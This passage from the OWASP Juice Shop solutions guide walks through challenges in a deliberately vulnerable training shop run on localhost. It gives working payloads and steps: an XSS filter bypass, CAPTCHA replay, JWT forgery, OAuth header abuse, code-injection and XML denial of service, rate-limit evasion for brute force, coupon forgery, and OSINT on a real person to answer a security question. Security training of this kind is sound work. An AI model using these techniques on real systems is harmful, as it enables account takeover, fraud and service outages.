> Sanitization is not applied recursively, leading to a vulnerability to
> certain masking attacks. Example:
>
> `I am not harmless: <img src="csrf-attack"/>`
> is sanitized to `I am not harmless: `
>
> Mitigation: Run sanitization recursively until the input html matches
> the output html.

1. Visit http://localhost:3000/#/contact.
2. Enter `<<script>Foo</script>script>alert("XSS")<</script>/script>` as
   _Comment_
3. Choose a rating and click _Submit_
4. Visit http://localhost:3000/#/about for a first "XSS" alert (from the
   _Customer Feedback_ slideshow)

   
5. Visit http://localhost:3000/#/administration for a second "XSS" alert
   (from the _Customer Feedback_ table)

   

## Dreadful Challenges (  :star::star::star::star::star:  )

### Submit 10 or more customer feedbacks within 10 seconds

1. Open the Network tab of your browser DevTools and visit
   <http://localhost:3000/#/contact>
2. You should notice a `GET` request to
   <http://localhost:3000/rest/captcha/> which retrieves the CAPTCHA for
   the feedback form. The HTTP response body will look similar to
   `{"captchaId":18,"captcha":"5*8*8","answer":"320"}`.
3. Regularly fill out the form and submit it while checking the backend
   interaction in your Developer Tools. The CAPTCHA identifier and
   solution are transmitted along with the feedback in the request body:
   `{comment: "Hello", rating: 1, captcha: "320", captchaId: 18}`
4. You will notice that a new CAPTCHA is retrieved from the REST
   endpoint. It will present a different math challenge, e.g.
   `{"captchaId":19,"captcha":"1*1-1","answer":"0"}`
5. Write another feedback but before sending it, change the `captchaId`
   and `captcha` parameters to the previous values of `captchaId` and
   `answer`. In this example you would submit `captcha: "320",
   captchaId: 18` instead of `captcha: "0", captchaId: 19`.
6. The server will accept your feedback, telling your that the CAPTCHA
   can be pinned to any previous one you like.
7. Write a script with a 10-iteration loop that submits feedback using
   your pinned `captchaId` and `captcha` parameters. Running this script
   will solve the challenge.

Two alternate (but more complex) solutions:
* Rewrite your script so that it _parses the response from each CAPTCHA
  retrieval call_ to <http://localhost:3000/rest/captcha/> and sets the
  extracted `captchaId` and `answer` parameters in each subsequent form
  submission as `captchaId` and `captcha`.
* Using an automated browser test tool like
  [Selenium WebDriver](https://www.seleniumhq.org/) you could do the
  following:
  1. Read the CAPTCHA question from the HTML element `<code id="captcha"
     ...>`
  2. Calculate the result on the fly using JavaScript
  3. Let WebDriver write the answer into the `<input
     name="feedbackCaptcha" ...>` field.

The latter is actually the way it is implemented in the end-to-end test
for this challenge:

```javascript
  let comment, rating, submitButton, captcha
  
  beforeEach(() => {
    browser.get('/#/contact')
    comment = element(by.model('feedback.comment'))
    rating = element(by.model('feedback.rating'))
    captcha = element(by.model('feedback.captcha'))
    submitButton = element(by.id('submitButton'))
    solveNextCaptcha()
  })
  
describe('challenge "captchaBypass"', () => {
  it('should be possible to post 10 or more customer feedbacks in less than 10 seconds', () => {
    for (var i = 0; i < 11; i++) {
      comment.sendKeys('Spam #' + i)
      rating.click()
      submitButton.click()
      solveNextCaptcha() // first CAPTCHA was already solved in beforeEach
    }
  })

  protractor.expect.challengeSolved({ challenge: 'CAPTCHA Bypass' })
})

function solveNextCaptcha () {
  element(by.id('captcha')).getText().then((text) => {
    const answer = eval(text).toString() // eslint-disable-line no-eval
    captcha.sendKeys(answer)
  })
}
```

_It is worth noting that both alternate solutions would still work even
if the CAPTCHA-pinning problem would be fixed in the application!_

### Retrieve the language file that never made it into production

1. Monitoring the HTTP calls to the backend when switching languages
   tells you how the translations are loaded:
   * <http://localhost:3000/i18n/en.json>
   * <http://localhost:3000/i18n/de_DE.json>
   * <http://localhost:3000/i18n/nl_NL.json>
   * <http://localhost:3000/i18n/zh_CN.json>
   * <http://localhost:3000/i18n/zh_HK.json>
   * etc.
2. It is obvious the language files are stored with the official
   _locale_ as name using underscore notation.
3. Nonetheless, brute forcing all possible locale codes (`aa_AA`,
   `ab_AA`, ..., `zz_ZY`, `zz_ZZ`) would still **not** solve the
   challenge.
4. The hidden language is _Klingon_ which is represented by a
   three-letter code `tlh` with the dummy country code `AA`.
5. Request <http://localhost:3000/i18n/tlh_AA.json> to solve the
   challenge. majQa'!

> The Klingon language was originally created to add realism to a race
> of fictional aliens who inhabit the world of Star Trek, an American
> television and movie franchise. Although Klingons themselves have
> never existed, the Klingon language is real. It has developed from
> gibberish to a usable means of communication, complete with its own
> vocabulary, grammar, figures of speech, and even slang and regional
> dialects. Today it is spoken by humans all over the world, in many
> contexts.[^3]

### Forge an essentially unsigned JWT token

1. Log in as any user to receive a valid JWT in the `Authorization`
   header.
2. Copy the JWT (i.e. everything after `Bearer ` in the `Authorization`
   header) into the _Encoded_ field at <https://jwt.io>.
4. In the _PAYLOAD_ field under _Decoded_ on the right hand side, change
   the `email` attribute in the JSON to `jwtn3d@juice-sh.op`.
5. Change the value of the `alg` parameter in the _HEADER_ part on the
   right hand side from `HS256` to `none`.
6. In the _Encoded_ field on the left delete the signature part (colored
   in cyan at the time of this writing) so that the final character of
   the JWT is the last `.` (dot symbol).
7. Change the `Authorization` header of a subsequent request to the
   retrieved JWT (prefixed with `Bearer ` as before) and submit the
   request. Alternatively you can set the `token` cookie to the JWT
   which be used to populate any future request with that header.

### Exploit OAuth 2.0 to log in with the Chief Information Security Officer's user account

1. Visit <http://localhost:3000/#/login> and enter some known
   credentials.
2. Tick the _Remember me_ checkbox and _Log in_.
3. Inspecting the application cookies shows a new `email` cookie storing
   the plaintext email address.
4. _Log out_ and go back to <http://localhost:3000/#/login>. Make sure
   _Remember me_ is still ticked.
5. Using `ciso@juice-sh.op` as _Email_ and anything as _Password_
   perform a failed login attempt.
6. Inspecting the `email` cookie shows it was set to `ciso@juice-sh.op`
   even when login failed.
7. Inspecting any request being sent from now on you will notice a new
   custom HTTP header `X-User-Email: ciso@juice-sh.op`.
8. Now visit <http://localhost:3000/#/login> again, but this time choose
   the _Log in with Google_ button.
9. Visit <http://localhost:3000/#/contact> and check the _Author_ field
   to be surprised that you are logged in as `ciso@juice-sh.op` instead
   with your Google email address, because
   [the OAuth integration for login will accept the 'X-User-Email' header as gospel regardless of the account that just logged in](https://incognitjoe.github.io/hacking-the-juice-shop.html).

If you do not own a Google account to log in with or are running the
Juice Shop on a hostname that is not recognized, you can still solve
this challenge by logging in regularly but add `"oauth": true` to the
JSON payload `POST`ed to <http://localhost:3000/rest/user/login>.

### Perform a Remote Code Execution that would keep a less hardened application busy forever

1. By manual or automated URL discovery you can find a
   [Swagger](https://swagger.io) API documentation hosted at
   <http://localhost:3000/api-docs> which describes the B2B API.

   
2. This API allows to `POST` orders where the order lines can be sent as
   JSON objects (`orderLines`) but also as a String (`orderLinesData`).
3. The given example for `orderLinesDate` indicates that this String
   might be allowed to contain arbitrary JSON: `[{"productId":
   12,"quantity": 10000,"customerReference": ["PO0000001.2",
   "SM20180105|042"],"couponCode": "pes[Bh.u*t"},...]`

   
4. Click the _Try it out_ button and without changing anything click
   _Execute_ to see if and how the API is working. This will give you a
   `401` error saying `No Authorization header was found`.
5. Go back to the application, log in as any user and copy your token
   from the `Authorization Bearer` header using your browser's DevTools.
6. Back at <http://localhost:3000/api-docs/#/Order/post_orders> click
   _Authorize_ and paste your token into the `Value` field.
7. Click _Try it out_ and _Execute_ to see a successful `200` response.
8. An insecure JSON deserialization would execute any function call
   defined within the JSON String, so a possible payload for a DoS
   attack would be an endless loop. Replace the example code with
   `{"orderLinesData": "(function dos() { while(true); })()"}` in the
   _Request Body_ field. Click _Execute_.
9. The server should eventually respond with a `200` after roughly 2
   seconds, because that is defined as a timeout so you do not really
   DoS your Juice Shop server.
10. If your request successfully bumped into the infinite loop
    protection, the challenge is marked as solved.

### Reset Bjoern's password via the Forgot Password mechanism

1. Trying to find out who "Bjoern" might be should quickly lead you to
   the OWASP Juice Shop project leader and author of this ebook
2. Visit https://www.facebook.com/bjoern.kimminich to immediately learn
   that he is from the town of _Uetersen_ in Germany
3. Visit https://gist.github.com/9045923 to find the source code of a
   game Bjoern wrote in 1995 (when he was a teenager) to learn his phone
   number area code of _04122_ which belongs to Uetersen. This is
   sufficient proof that you in fact are on the right track
4. http://www.geopostcodes.com/Uetersen will tell you that Uetersen has
   ZIP code _25436_
5. Visit http://localhost:3000/#/forgot-password and provide
   `bjoern.kimminich@googlemail.com` as your _Email_
6. In the subsequently appearing form, provide `25436` as _Your
   ZIP/postal code when you were a teenager?_
7. Type and _New Password_ and matching _Repeat New Password_ followed
   by hitting _Change_ to **not solve** this challenge
8. Bjoern added some obscurity to his security answer by using an
   uncommon variant of the pre-unification format of
   [postal codes in Germany](#postal-codes-in-germany)
9. Visit http://www.alte-postleitzahlen.de/uetersen to learn that
   Uetersen's old ZIP code was `W-2082`. This would not work as an
   answer either. Bjoern used the written out variation: `West-2082`
10. Change the answer to _Your ZIP/postal code when you were a
    teenager?_ into `West-2082` and click _Change_ again to finally
    solve this challenge

#### Postal codes in Germany

> Postal codes in Germany, Postleitzahl (plural Postleitzahlen,
> abbreviated to PLZ; literally "postal routing number"), since 1 July
> 1993 consist of five digits. The first two digits indicate the wider
> area, the last three digits the postal district.
>
> Before reunification, both the Federal Republic of Germany (FRG) and
> the German Democratic Republic (GDR) used four-digit codes. Under a
> transitional arrangement following reunification, between 1989 and
> 1993 postal codes in the west were prefixed with 'W', e.g.: W-1000
> \[Berlin\] 30 (postal districts in western cities were separate from
> the postal code) and those in the east with 'O' (for Ost), e.g.:
> O-1xxx Berlin.[^4]

### Reset Morty's password via the Forgot Password mechanism

1. Trying to find out who "Morty" might be should _eventually_ lead you
   to _Morty Smith_ as the most likely user identity

   
2. Visit http://rickandmorty.wikia.com/wiki/Morty and skim through the
   [Family](http://rickandmorty.wikia.com/wiki/Morty#Family) section
3. It tells you that Morty had a dog named _Snuffles_ which also goes by
   the alias of _Snowball_ for a while.
4. Visit http://localhost:3000/#/forgot-password and provide
   `morty@juice-sh.op` as your _Email_
5. Create a word list of all mutations (including typical
   "leet-speak"-variations!) of the strings `snuffles` and `snowball`
   using only
   * lower case (`a-z`)
   * upper case (`A-Z`)
   * and digit characters (`0-9`)
6. Write a script that iterates over the word list and sends well-formed
   requests to `http://localhost:3000/rest/user/reset-password`. A rate
   limiting mechanism will prevent you from sending more than 100
   requests within 5 minutes, severely hampering your brute force
   attack.
7. Change your script so that it provides a different
   `X-Forwarded-For`-header in each request, as this takes precedence
   over the client IP in determining the origin of a request.
8. Rerun your script you will notice at some point that the answer to
   the security question is `5N0wb41L` and the challenge is marked as
   solved.
9. Feel free to cancel the script execution at this point.

> Leet (or "1337"), also known as eleet or leetspeak, is a system of
> modified spellings and verbiage used primarily on the Internet for
> many phonetic languages. It uses some alphabetic characters to replace
> others in ways that play on the similarity of their glyphs via
> reflection or other resemblance. Additionally, it modifies certain
> words based on a system of suffixes and alternative meanings.
>
> The term "leet" is derived from the word elite. The leet lexicon
> involves a specialized form of symbolic writing. For example, leet
> spellings of the word leet include 1337 and l33t; eleet may be spelled
> 31337 or 3l33t. Leet may also be considered a substitution cipher,
> although many dialects or linguistic varieties exist in different
> online communities.[^5]

### Deprive the shop of earnings by downloading the blueprint for one of its products

1. The description of the _OWASP Juice Shop Logo (3D-printed)_ product
   indicates that this product might actually have kind of a blueprint
2. Download the product image from
   http://localhost:3000/public/images/products/3d_keychain.jpg and view
   its [Exif metadata](https://en.wikipedia.org/wiki/Exif)

   
3. Researching the camera model entry _OpenSCAD_ reveals that this is a
   program to create 3D models, which works with `.stl` files
4. As no further hint on the blueprint filename or anything is given, a
   lucky guess or brute force attack is your only choice
5. Download http://localhost:3000/public/images/products/JuiceShop.stl
   to solve this challenge
6. This model will actually allow you to 3D-print your own OWASP Juice
   Shop logo models!

   

### Inform the development team about a danger to some of their credentials

1. Solve [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)
2. The `package.json.bak` contains not only runtime dependencies but also development dependencies under the `devDependencies` section.
3. Go through the list `devDependencies` and perform research on vulnerabilities in them which would allow a Software Supply Chain Attack.
4. For the `eslint-scope` module you will learn about one such incident exactly in the pinned version `3.7.2`, e.g. <https://status.npmjs.org/incidents/dn7c1fgrr7ng> or <https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes>
5. Both above links refer to the original report of this vulnerability on GitHub: <https://github.com/eslint/eslint-scope/issues/39>
5. Visit <http://localhost:3000/#/contact>
6. Submit your feedback with `https://github.com/eslint/eslint-scope/issues/39` in the comment to solve this challenge

### Inform the shop about a more literal instance of typosquatting it fell for

1. In your browser perform right-click and choose _View Source_ on any
   dialog of the Juice Shop
2. Scroll down to the line where all the JavaScript files are included:

   ```html
    <!-- Include all compiled plugins (below), or include individual files as needed -->
    <!-- libraries, third party components -->
    <script src="/socket.io/socket.io.js"></script>
    <script src="private/fontawesome-all.min.js"></script>
    <script src="node_modules/underscore/underscore.js"></script>
    <script src="node_modules/string/dist/string.min.js"></script>
    <script src="node_modules/moment/min/moment.min.js"></script>
    <script src="node_modules/jquery/dist/jquery.min.js"></script>
    <script src="node_modules/bootstrap/dist/js/bootstrap.min.js"></script>
    <script src="node_modules/angular/angular.min.js"></script>
    <script src="node_modules/angular-translate/dist/angular-translate.min.js"></script>
    <script src="node_modules/angular-translate-loader-static-files/angular-translate-loader-static-files.min.js"></script>
    <script src="node_modules/angular-route/angular-route.min.js"></script>
    <script src="node_modules/angular-cookies/angular-cookies.min.js"></script>
    <script src="node_modules/angular-tooltipps/dist/angular-tooltips.min.js"></script>
    <script src="node_modules/angular-touch/angular-touch.min.js"></script>
    <script src="node_modules/angular-animate/angular-animate.min.js"></script>
    <script src="node_modules/angular-ui-bootstrap/dist/ui-bootstrap.js"></script>
    <script src="node_modules/angular-ui-bootstrap/dist/ui-bootstrap-tpls.js"></script>
    <script src="node_modules/ng-file-upload/dist/ng-file-upload-shim.min.js"></script> <!-- for no html5 browsers support -->
    <script src="node_modules/ng-file-upload/dist/ng-file-upload.min.js"></script>
    <script src="node_modules/angular-socket-io/socket.min.js"></script>
    <script src="node_modules/clipboard/dist/clipboard.min.js"></script>
    <script src="node_modules/ngclipboard/dist/ngclipboard.min.js"></script>
    <script src="node_modules/angular-base64/angular-base64.js"></script>
    <script src="node_modules/qrcode-generator/qrcode.js"></script>
    <script src="node_modules/angular-qrcode/angular-qrcode.js"></script>
   ```

3. Scrutinizing each entry in the list you will at some point get to
   `angular-tooltipps` which adds its `dist/angular-tooltips.min.js`
   script
4. Noticing the spelling difference in the word _tooltip**p**s_,
   checking the NPM registry reveals that `angular-tooltipps` is
   actually a typosquat of `angular-tooltips`

   
5. Visit <http://localhost:3000/#/contact>
6. Submit your feedback with `angular-tooltipps` in the comment to solve
   this challenge

You can probably imagine that the typosquatted `angular-tooltipps` would
be _a lot harder_ to distinguish from the original repository
`angular-tooltips`, if it where not marked with the _THIS IS **NOT** THE
MODULE YOU ARE LOOKING FOR!_-warning at the very top. Below you can see
the original `angular-tooltips` module page on NPM:


### Give the server something to chew on for quite a while

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. On Linux, prepare an XML file which defines and uses an external
   entity which will require a long time to resolve: `<!ENTITY xxe
   SYSTEM "file:///dev/random">`. On Windows there is no similar feature
   to retrieve randomness from the OS via an "endless" file, so the
   attack vector has to be completely different. A _quadratic blowup_
   attack works fine, consisting of a single large entity like `<!ENTITY
   a "dosdosdosdos...dos"`> which is replicated very often as in
   `<foo>&a;&a;&a;&a;&a;...&a;</foo>`.
3. Upload this file through the _File Complaint_ dialog and observe how
   the request processing takes up to 2 seconds and then times out (to
   prevent you from actually DoS'ing your application) but still solving
   the challenge.

_You might feel tempted to try the classic **Billion laughs attack** but
will quickly notice that the XML parser is hardened against it, giving
you a status `410` HTTP error saying `Detected an entity reference
loop`._

> In computer security, a billion laughs attack is a type of
> denial-of-service (DoS) attack which is aimed at parsers of XML
> documents.
>
> It is also referred to as an XML bomb or as an exponential entity
> expansion attack.
>
> The example attack consists of defining 10 entities, each defined as
> consisting of 10 of the previous entity, with the document consisting
> of a single instance of the largest entity, which expands to one
> billion copies of the first entity.
>
> In the most frequently cited example, the first entity is the string
> "lol", hence the name "billion laughs". The amount of computer memory
> used would likely exceed that available to the process parsing the XML
> (it certainly would have at the time the vulnerability was first
> reported).
>
> While the original form of the attack was aimed specifically at XML
> parsers, the term may be applicable to similar subjects as well.
>
> The problem was first reported as early as 2002, but began to be
> widely addressed in 2008.
>
> Defenses against this kind of attack include capping the memory
> allocated in an individual parser if loss of the document is
> acceptable, or treating entities symbolically and expanding them
> lazily only when (and to the extent) their content is to be used.[^6]
> 
> ```xml
> <?xml version="1.0"?>
><!DOCTYPE lolz [
> <!ENTITY lol "lol">
> <!ELEMENT lolz (#PCDATA)>
> <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
> <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
> <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
> <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
> <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
> <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
> <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
> <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
> <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
>]>
><lolz>&lol9;</lolz>
> ```

## Diabolic Challenges (  :star::star::star::star::star::star:  )

### Forge a coupon code that gives you a discount of at least 80%

For this challenge there are actually two distinct _solution paths_ that
are both viable. These will be explained separately as they utilize
totally different attack styles.

#### _Pattern analysis_ solution path

1. Solve challenge
   [Access a salesman's forgotten backup file](#access-a-salesmans-forgotten-backup-file)
   to get the `coupons_2013.md.bak` file with old coupon codes.

```
 n<MibgC7sn
 mNYS#gC7sn
 o*IVigC7sn
 k#pDlgC7sn
 o*I]pgC7sn
 n(XRvgC7sn
 n(XLtgC7sn
 k#*AfgC7sn
 q:<IqgC7sn
 pEw8ogC7sn
 pes[BgC7sn
 l}6D$gC7ss
```

1. There is an obvious pattern in the last characters, as the first
   eleven codes end with `gC7sn` and the last with `gC7ss`.
2. You can rightfully speculate that the last five characters represent
   the actual discount value. The change in the last character for the
   12th code comes from a different (probably higher) discount in
   December! :santa:
3. Check the official Juice Shop Twitter account for a valid coupon
   code: <https://twitter.com/owasp_juiceshop>
4. At the time of this writing - January 2017 - the broadcasted coupon
   was `n<Mibh.u)v` promising a 50% discount.
5. Assuming that the discount value is encoded in the last 2-5
   characters of the code, you could now start a trial-end-error or
   brute force attack generating codes and try redeeming them on the
   _Your Basket_ page. At some point you will probably hit one that
   gives 80% or more discount.
6. You need to _Checkout_ after redeeming your code to solve the
   challenge.

#### _Reverse engineering_ solution path

1. Going through the dependencies mentioned in `package.json.bak` you
   can speculate that at least one of them could be involved in the
   coupon code generation.
2. Narrowing the dependencies down to crypto or hashing libraries you
   would end up with `hashids`, `jsonwebtoken` and `z85` as candidates.
3. It turns out that `z85`
   ([ZeroMQ Base-85 Encoding](https://rfc.zeromq.org/spec:32/Z85/)) was
   chosen as the coupon code-creation algorithm.
4. Visit <https://www.npmjs.com/package/z85> and check the _Dependents_
   section:

   
5. If you have Node.js installed locally run `npm install -g z85-cli` to
   install <https://www.npmjs.com/package/z85-cli> - a simple command
   line interface for `z85`:

   
6. Check the official Juice Shop Twitter account
   <https://twitter.com/owasp_juiceshop> for a valid coupon code. At the
   time of this writing - January 2017 - the broadcasted coupon was
   `n<Mibh.u)v` promising a 50% discount.

   
7. Decrypting this code with `z85 -d "n<Mibh.u)v"` returns `JAN17-50`
8. Encrypt a code valid for the current month with 80% or more discount,
   e.g. `z85 -e JAN17-80` which yields `n<Mibh.v0y`.
9. Enter and redeem the generated code on the _Your Basket_ page and
   _Checkout_ to solve the challenge.

### Solve challenge #99

1. Solve any other challenge
2. Inspect the cookies in your browser to find a `continueCode` cookie
   with 30 days lifetime
3. The `package.json.bak` contains the library used for generating
   continue codes: `hashid`
4. Visit <http://hashids.org/> to get some information about the
   mechanism
5. Follow the link labeled _check out the demo_
   (<http://codepen.io/ivanakimov/pen/bNmExm>)
6. The Juice Shop simply uses the example salt (`this is my salt`) and
   also the default character range
   (`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890`)
   from that demo page. It just uses a minimum length of `60` instead of
   `8` for the resulting hash:

```javascript
   var hashids = new Hashids("this is my salt", 60, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890");

  var id = hashids.encode(99);
  var numbers = hashids.decode(id);

  $("#input").text("["+numbers.join(", ")+"]");
  $("#output").text(id);
```

1. Encoding the value `99` gives you the hash result
   `69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkKgGe9M7k2rK63YpqQLPjnlb5V5LvDj`
2. Send a `PUT` request to the URL
   <http://localhost:3000/rest/continue-code/apply/69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkKgGe9M7k2rK63YpqQLPjnlb5V5LvDj>

   

### Forge an almost properly RSA-signed JWT token

1. Browse the directory <http://localhost:3000/encryptionkeys>. How to
   find this directory is described in the solution for challenge
   [Unlock Premium Challenge to access exclusive content](#unlock-premium-challenge-to-access-exclusive-content).
2. Retrieve the public RSA key that is used to verify the JWTs from
   <http://localhost:3000/encryptionkeys/jwt.pub>.
3. Log in as any user to receive a valid JWT in the `Authorization`
   header.
4. Copy the JWT (i.e. everything after `Bearer ` in the `Authorization`
   header) into the _Encoded_ field at <https://jwt.io>.
6. In the _PAYLOAD_ field under _Decoded_ on the right hand side, change
   the `email` attribute in the JSON to `rsa_lord@juice-sh.op`.
7. In the <https://jwt.io> tab where you are modifying the JWT, go to
   the Browser developer tools (`F12` in Chrome) and find the
   `js/jwt.js` file (under _Source_ in Chrome).
8. Put a breakpoint on the line saying `key =
   window.CryptoJS.enc.Latin1.parse(key).toString();` (line 77 at the
   time of this writing)
9. Make some arbitrary change to the JWT on the right hand side to
   trigger the breakpoint.
10. While execution is paused, set the `key` variable to the public RSA
    via the developer tools Console: `key = '-----BEGIN RSA PUBLIC
    KEY-----\r\nMIGJAoGBAM3CosR73CBNcJsLv5E90NsFt6qN1uziQ484gbOoule8leXHFbyIzPQRozgEpSpiwhr6d2/c0CfZHEJ3m5tV0klxfjfM7oqjRMURnH/rmBjcETQ7qzIISZQ/iptJ3p7Gi78X5ZMhLNtDkUFU9WaGdiEb+SnC39wjErmJSfmGb7i1AgMBAAE=\r\n-----END
    RSA PUBLIC KEY-----'`. Note that it is necessary to encode the line
    breaks in the key properly using `\r\n` in the appropriate places!
11. Resume execution. A signature should have been added to the JWT text
    on the left hand side.
12. Change the `Authorization` header of a subsequent request to the
    retrieved JWT (prefixed with `Bearer ` as before) and submit the
    request. Alternatively you can set the `token` cookie to the JWT
    which be used to populate any future request with that header.

### Log in with the support team's original user credentials

_Solving this challenge requires [KeePass 2.x](http://keepass.info)
installed on your computer. If you are using a non-Windows OS you need
to use some unofficial port._

1. Download and install KeePass 2.x from <http://keepass.info>
2. Get the support team's KeePass database file from
   <http://localhost:3000/ftp/incident-support.kdbx> (note how this file
   is _not blocked_ by the file type filter).
3. Inspecting the DOM of the _Login_ form reveals a HTML comment in
   Romanian language: `<!-- @echipa de suport: Secretul nostru comun
   este încă Caoimhe cu parola de master gol! -->`
4. Running this through an online translator yields something like:
   `Support Team: Our secret is still common Caoimhe master password
   empty!`
5. From `master password empty` you can derive, that the KeePass file is
   protected with **only a key file** instead of a password!
6. The key file must be something the support team has access to from
   everywhere - how else would they achieve 24/7?
7. The second important hint is the reference to `Caoimhe`, which
   happens to be an Irish feminine given name.
8. Visit <http://localhost:3000/#/about> and cycle through the photos of
   all support staff that are displayed in the background feedback
   carousel. There is one woman with red hair - maybe she actually _is_
   "Caoimhe"?
9. Download the photo
   <http://localhost:3000/public/images/carousel/6.jpg> and use it as a
   key file to unlock the KeePass database.
10. Find the password for the support team user account in the `prod`
    entry of the KeePass file.

    
11. Log in with `support@juice-sh.op` as _Email_ and
    `J6aVjTgOpRs$?5l+Zkq2AYnCE@RF§P` as _Password_ to beat this
    challenge.

    

### Unlock Premium Challenge to access exclusive content

1. Inspecting the HTML source of the corresponding row in the _Score
   Board_ table reveals a HTML comment that is obviously encrypted:
   `<!--IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg==-->`.

   
2. This is a cipher text that came out of an AES-encryption using AES256
   in CBC mode.
3. To get the key and the IV, you should run a _Forced Directory
   Browsing_ attack against the application. You can use OWASP ZAP for
   this purpose.
   1. Of the word lists coming with OWASP ZAP only
      `directory-list-2.3-big.txt` and
      `directory-list-lowercase-2.3-big.txt` contain the directory with
      the key file.
   2. The search will uncover <http://localhost:3000/encryptionkeys> as
      a browsable directory
   3. Open <http://localhost:3000/encryptionkeys/premium.key> to
      retrieve the AES encryption key `EA99A61D92D2955B1E9285B55BF2AD42`
      and the IV `1337`.
4. In order to decrypt the cipher text, it is best to use `openssl`.
   - `echo
     "IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg=="
     | openssl enc -d -aes-256-cbc -K EA99A61D92D2955B1E9285B55BF2AD42
     -iv 1337133713371337 -a -A`
   - The plain text is:
     `/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us`
5. Visit
   <http://localhost:3000/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us>
   to solve this challenge and marvel at the premium content!

### Perform a Remote Code Execution that occupies the server for a while without using infinite loops

1. Follow steps 1-7 of the challenge
   [Perform a Remote Code Execution that would keep a less hardened application busy forever](#perform-a-remote-code-execution-that-would-keep-a-less-hardened-application-busy-forever).
2. As _Request Body_ put in `{"orderLinesData":
   "/((a+)+)b/.test('aaaaaaaaaaaaaaaaaaaaaaaaaaaaa')"}` - which will
   trigger a very costly Regular Expression test once executed.
3. Submit the request by clicking _Execute_.
4. The server should eventually respond with a `503` status and an error
   stating `Sorry, we are temporarily not available! Please try again
   later.` after roughly 2 seconds. This is due to a defined timeout so
   you do not really DoS your Juice Shop server.

[^1]: <https://en.wikipedia.org/wiki/ROT13>

[^2]: <http://hakipedia.com/index.php/Poison_Null_Byte>

[^3]: <http://www.kli.org/about-klingon/klingon-history>

[^4]: <https://en.wikipedia.org/wiki/List_of_postal_codes_in_Germany>

[^5]: <https://en.wikipedia.org/wiki/Leet>

[^6]: <https://en.wikipedia.org/wiki/Billion_laughs_attack>